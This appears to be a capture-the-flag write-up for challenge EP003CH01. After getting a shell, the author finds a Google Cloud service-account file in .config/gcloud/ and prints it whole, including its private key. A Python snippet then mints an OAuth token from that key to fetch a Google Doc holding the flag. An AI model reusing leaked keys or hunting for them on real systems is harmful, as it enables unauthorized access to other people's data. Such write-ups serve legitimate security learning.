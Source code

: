## EP003CH01

Through the intro challenge we have the password to obtain a shell on a computer. Digging around we find a file called `backup.py`. It uses an API token to fetch a file from `https://docs.googleapis.com/v1/documents/1Z7CQDJhCj1G5ehvM3zB3FyxsCfdvierd1fs0UBlzFFM`. They have deleted the file containing the token, though. Or have they? 
We can find the private key that is used to create authorization tokens in `.config/gcloud/`

```json
{
  "client_email": "backup-tool@project-multivision.iam.gserviceaccount.com",
  "client_id": "105494657484877589161",
  "private_key": "-----BEGIN PRIVATE KEY-----\nMIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQDEH/WQiLjqB2nn\ncMc+fBOMbq3SE75vkj9EqNWi+ilk+ChphklRGsGcVeFsuPp06WjN1d/knWw/f+0M\nPY3tli2oQIHuqLH5GIkVhm/xpdgZUbskO8EjSI3eIs+qCMcfObgeFSw7T29PorC3\nIuQDPTfIgo4oHA7UlEBE8mZVUnEXFDh/5sNFa+UzUE1QqpWymdRVhDHekxz0erWM\nc67Ovxti40X4LnSvHOBjinjMDdtmvXBel0mIzUQxjLp6hmTPoKD7PKUodSN2QaKA\nm+pQ6deWr5QvXTBc5XEXKpMnZnn4KqouJSic7jWGAOxY1iy/We4OWeUWDYiFBxZu\nZe+IZSL5AgMBAAECggEAGg1Kv9fBhGjWswUimlS9/gYHteOkhMqO9+5bboo/bGeg\naqAJZiohNMSdrKUHs/b7UnhKBOK6adby5JDapQgxaWukNtEWzwlo0ECq5xUKFxbp\nvn7ngWnWWn8SSbpfxPCUWf6jAP/kv9XTFoiedCWyHsLk4kQT3j4RKXdvi37ngdKU\ne+CTFCDIlSr7Q2MdcKMql8lRkjcW0kvY9w8+gVXbgl4M3bNMru2JlxNn2scaGXg0\nn/GbifMvbxYguCKhgTNH+t0N8vilVO8qUInvSDzQMSEZEycjxlsUgIAvrRy6QXT0\n4S1TbIARnrFC0g4zY0mg1EycuhO3OyeiM2KTweY7rwKBgQD3Kp2J6YsK2RuwktLb\n1pC2o0jYuOMSGCsjULzeqYkXHpmFY7iojd/g8FStPdJ+BanqcsZIUQf07zUxk5Xb\nDdwH+9Q2QpQahRc6GhwcySd3v79ZaAkZAO3r/QjF0OPLRLyvRXR8R5g25LYXL8Yk\nnLbAGfcVjyW5XGCZOsmnu72+9wKBgQDLIloXEJJjwa+QTnBhmkOv922q0sVRLOUY\nuj621qt09hgMTztepFsysBjJmDtAMOJpQott1G2m0wVkk7zdzmPFUvOMDc9/54y8\niqmBvoMBSLgWElp1vXvW7ICED/d11m6aOwIVKJvJtHvS5seAd8TzHSy+5FUPjG5m\naS5psPuBjwKBgQDtTtpBDp00Bi2iw+V1szXwVSfdBO7ncZMBbkRYmHgKXZPS0WL7\nWnRoWPdD+kZ+PtvcQOSFjF9SWNU+y0+nKVBnze77RcNDDyO04lq5fJzLSavjoJKT\nkiPdX22r2BrOECoFMm9b37WShtcZvgHFJz4DhSqJZY43wSzyEdKJnCTbEwKBgQDE\nz6ar3DGJl5pLXcRCvJ1CO5+0t3vYF4Bsgd7LdZgvvVQ1cPrbyrBVnwqVH/qgSfzD\n8WZ35i7LSH9cIEwIN7Sw9ZrkomjdyvGvp0VuYLA7KUK6l9OvagQ3i3NFANdJA5ar\ntephp7OxLT4fa9v1m5Vl22mEFmRXqT852ETQwFod/wKBgAgHdxxm1anORWoZVMhZ\nDgWAhJSWsYv1HPPx18NTwVt0GxBA+ssvg8ET7zDXd5E1vay533SaV4pk/w2mWsZU\nlbfS/vMslyg9GPpaKmhGVi6d3jr0xjgh5Vs72WCo2lAXvHwZNslB20SCmUzdP4nU\nrwrzx7aO6kKU+DHb9EoEN+LI\n-----END PRIVATE KEY-----\n",
  "private_key_id": "722d66d6da8d6d5356d73d04d9366a76c7ada494",
  "project_id": "project-multivision",
  "token_uri": "https://oauth2.googleapis.com/token",
  "type": "service_account"
}
```

We can use the above json file to obtain a token that allows us to fetch the file. 
```python
SCOPES = [
    'https://www.googleapis.com/auth/cloud-platform', 
    'https://www.googleapis.com/auth/documents.readonly'
]
SERVICE_ACCOUNT_FILE = 'adc.json'

import google.auth
import google.auth.transport.requests
from google.oauth2 import service_account

cred = service_account.Credentials.from_service_account_file(
            SERVICE_ACCOUNT_FILE, scopes=SCOPES)
auth_req = google.auth.transport.requests.Request()
cred.refresh(auth_req)
print(cred)
print(cred.token)
```
We can then fill the missing `get_token()` function in `backup.py` to fetch the file, which contains the flag.
